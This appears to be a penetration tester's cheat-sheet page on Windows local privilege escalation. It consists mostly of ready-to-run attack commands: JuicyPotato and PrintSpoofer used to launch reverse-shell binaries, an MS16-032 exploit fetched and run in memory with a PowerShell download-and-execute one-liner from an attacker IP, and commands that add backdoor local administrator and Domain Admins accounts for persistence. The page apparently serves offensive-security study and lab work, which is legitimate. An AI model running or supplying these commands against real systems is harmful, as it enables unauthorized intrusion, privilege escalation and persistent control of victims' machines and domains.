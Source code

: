 {% hint style="info" %}
May need to find an CLSID for the Windows version

[https://github.com/ohpe/juicy-potato/tree/master/CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)

JuicyPotato.exe -l 12345 -p C:\Users\Rob\Desktop\rev.exe-t \* -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
{% endhint %}

#### RouguePotato/PrintSpoofer `SeImpersonate`

```
 Windows 10 and Server 2016/2019.
 
 .\PrintSpoofer64.exe -c .\shell.exe
```

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer" %}

#### ms16-032 (w/o KB3139914) <a href="#articlecontentid" id="articlecontentid"></a>

```
wmic qfe list | find "3139914"
```

{% code overflow="wrap" %}
```

https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1

. .\Invoke-MS16-032.ps1
Invoke-MS16-032.ps1

powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://192.168.45.5/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user evi1cg test123 /add'"
```
{% endcode %}

#### Create user for persistency as admin/system

```
net user kali pass1234! /add
net localgroup administrators kali /add
net localgroup "remote desktop users" kali /add

net group "Domain Admins" kali /add

impacket-psexec kali@ip

can add /domain flag behind if is creating with domain admin / DC ser admin
# can try with local admin?
net user kali2 kali1234 /add /Domain
net group "Domain Admins" hacker2 /add /domain
```
